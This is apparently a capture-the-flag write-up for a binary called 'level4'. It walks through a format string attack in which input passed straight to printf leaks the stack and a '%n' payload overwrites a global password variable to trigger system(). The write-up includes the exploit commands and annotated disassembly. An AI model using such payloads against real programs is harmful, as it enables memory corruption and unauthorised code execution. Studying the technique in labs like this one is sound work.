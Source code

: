 - attack: format string exploitation
- binary behavior: fgets argument and send it to printf, if global argument = 64 run the shell
- targeted functions: n, p and main
- vulnerability in v: printf() without argument (Bugs section in printf man)
- defense: fget

Method:
- do stack leakage
- find in leakage the position of the buffer (find repetition and compare with hex ASCII table)
- find the global variable (password)
- overwrite buffer with address of global variable 
- and pass 16930116 as its value
 
Info:
- positon of buffer in stack - 12

- 0x8049810 - address global variable
- 10980408 - same in little-endian
- same in hex - \x10\x98\x04\x08
- the password - 0x1025544 or 16930116

- offset code structure: 16930112 = 16930116 (password) - 4 (buffer address)


Code:
objdump -d ./level4
(python -c 'print "0000" + " %p" * 15'; cat) | ./level4
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')


Functions

080484a7 <main>:
 80484a7:       55                      push   %ebp
 80484a8:       89 e5                   mov    %esp,%ebp
 80484aa:       83 e4 f0                and    $0xfffffff0,%esp
 80484ad:       e8 a5 ff ff ff          call   8048457 <n> # move to n
 80484b2:       c9                      leave
 80484b3:       c3                      ret


08048457 <n>:
 8048457:       55                      push   %ebp
 8048458:       89 e5                   mov    %esp,%ebp
 804845a:       81 ec 18 02 00 00       sub    $0x218,%esp #536
 8048460:       a1 04 98 04 08          mov    0x8049804,%eax
 8048465:       89 44 24 08             mov    %eax,0x8(%esp)
 8048469:       c7 44 24 04 00 02 00    movl   $0x200,0x4(%esp)
 8048470:       00
 8048471:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax #520
 8048477:       89 04 24                mov    %eax,(%esp)
 804847a:       e8 d1 fe ff ff          call   8048350 <fgets@plt> # defence
 804847f:       8d 85 f8 fd ff ff       lea    -0x208(%ebp),%eax
 8048485:       89 04 24                mov    %eax,(%esp)
 8048488:       e8 b7 ff ff ff          call   8048444 <p> # calling p
 804848d:       a1 10 98 04 08          mov    0x8049810,%eax # global varibale
 8048492:       3d 44 55 02 01          cmp    $0x1025544,%eax # password
 8048497:       75 0c                   jne    80484a5 <n+0x4e> # call system if true
 8048499:       c7 04 24 90 85 04 08    movl   $0x8048590,(%esp)
 80484a0:       e8 bb fe ff ff          call   8048360 <system@plt> # exloit
 80484a5:       c9                      leave
 80484a6:       c3                      ret


 08048444 <p>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       8b 45 08                mov    0x8(%ebp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 eb fe ff ff          call   8048340 <printf@plt> # exploit
 8048455:       c9                      leave
 8048456:       c3                      ret